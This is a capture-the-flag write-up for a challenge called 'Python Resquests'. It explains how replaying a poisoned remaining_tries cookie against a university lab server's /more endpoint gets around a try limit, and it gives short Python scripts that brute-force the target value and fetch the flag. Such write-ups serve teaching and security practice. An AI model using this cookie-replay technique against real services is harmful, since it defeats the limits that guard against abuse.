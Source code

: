# Challenge `Python Resquests` Writeup

- Vulnerability:
    - Endpoint is vulnerable to brute-force attack and cookie poisoning

- Where:
    - `/more` endpoint and `remaining_tries` cookie

- Impact:
    - Allows to find the server guess by repeated requests with poisoned cookie

## Steps to reproduce

### Step 1: Get cookie, target value, and current value
Firstly, we need to send a request to `/hello` to get the cookie, the target value and the current value.

```python
import requests
import re

link = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23054"
s = requests.Session()

# get cookie, target value, and current value from link + /hello
r = s.get(link + "/hello")
cookies = r.cookies.get_dict()
target = re.search(r"target (\d+)", r.text, re.IGNORECASE)[1]
curr = re.search(r"Your current value is: (\d+)", r.text, re.IGNORECASE)[1]
```

### Step 2: Send requests to `/more` until the target value is reached
To be able to send multiple requests to `/more` we need to poison the `remaining_tries` cookie with its value set to 1 which is the value we previously got from `/hello`.

```python
while curr != target:
    r = requests.get(link + "/more", cookies=cookies)
    curr = re.search(r"Your current value is: (\d+)", r.text, re.IGNORECASE)[1]
```

### Step 3: Get flag
Once the target value is reached, send a request to `/finish` to get the flag.

```python
r = s.get(link + "/finish")
print(r.text)
```

## Implementation

The full implementation can be found [here](cookies.py).
